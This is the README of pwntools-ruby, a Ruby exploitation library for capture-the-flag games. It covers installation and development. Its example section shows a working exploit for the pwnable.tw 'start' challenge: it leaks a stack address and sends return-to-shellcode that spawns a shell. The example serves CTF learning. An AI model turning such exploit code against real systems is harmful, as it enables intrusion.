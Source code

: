 [![GitHub stars](https://img.shields.io/github/stars/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/stargazers)
[![Dependency Status](https://img.shields.io/gemnasium/peter50216/pwntools-ruby.svg)](https://gemnasium.com/peter50216/pwntools-ruby)
[![Build Status](https://img.shields.io/travis/peter50216/pwntools-ruby.svg)](https://travis-ci.org/peter50216/pwntools-ruby)
[![Test Coverage](https://img.shields.io/codeclimate/coverage/github/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby/coverage)
[![Code Climate](https://img.shields.io/codeclimate/github/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby)
[![Inline docs](https://inch-ci.org/github/peter50216/pwntools-ruby.svg)](https://inch-ci.org/github/peter50216/pwntools-ruby)
[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](http://choosealicense.com/licenses/mit/)

# pwntools-ruby

Always sad when playing CTF that there's nothing equivalent to pwntools in Python.
While pwntools is awesome, I always love Ruby far more than Python...
So this is an attempt to create such library.

Would try to have consistent naming with original pwntools, and do things in Ruby style.

# Example Usage

Here's an exploitation for `start` which is a challenge on `pwnable.tw`.

```ruby
# encoding: ASCII-8BIT
# The encoding line is important most time, or you'll get "\u0000" when using "\x00" in code,
# which is NOT what we want when doing pwn...

require 'pwn'

context.log_level = :debug
z = Sock.new 'chall.pwnable.tw', 10000

z.recvuntil "Let's start the CTF:"
z.send p32(0x8048087).rjust(0x18, 'A')
stk = u32(z.recvuntil "\xff")
log.info "stack address: #{stk.hex}" # Log stack address

# Return to shellcode
addr = stk + 0x14
payload = addr.p32.rjust(0x18, 'A') + asm(shellcraft.sh)
z.write payload

# Switch to interactive mode
z.interact
```

More features and details can be found in the
![documentation](http://www.rubydoc.info/github/peter50216/pwntools-ruby/master/frames).

# Installation

Since there are two gems, which `pwntools-ruby` depends on, didn't be published to rubygems,
you should install them by self. :disappointed:

```sh
gem install pwntools

git clone https://github.com/bnagy/crabstone.git /tmp/crabstone
cd /tmp/crabstone
gem build crabstone.gemspec
gem install crabstone

git clone https://github.com/sashs/ruby-keystone.git /tmp/ruby-keystone
cd /tmp/ruby-keystone/keystone_gem
gem build keystone.gemspec
gem install keystone
```

Some of the features (assembling/disassembling) require non-Ruby dependencies. Checkout the
installation guide for
[keystone-engine](https://github.com/keystone-engine/keystone/tree/master/docs) and
[capstone-engine](http://www.capstone-engine.org/documentation.html).

Or you are able to get running quickly with

```sh
# Install capstone
sudo apt-get install libcapstone3

# Compile and install Keystone from source.
sudo apt-get install cmake
git clone https://github.com/keystone-engine/keystone.git /tmp/keystone
cd /tmp/keystone
mkdir build
cd build
../make-share.sh
sudo make install
```

# Development
```sh
git clone git@github.com:peter50216/pwntools-ruby.git
cd pwntools-ruby
rake
```

# Note to irb users
irb defines `main.context`.

For the ease of exploit development in irb, that method would be removed if you use `require 'pwn'`.

You can still get the `IRB::Context` by `irb_context`.
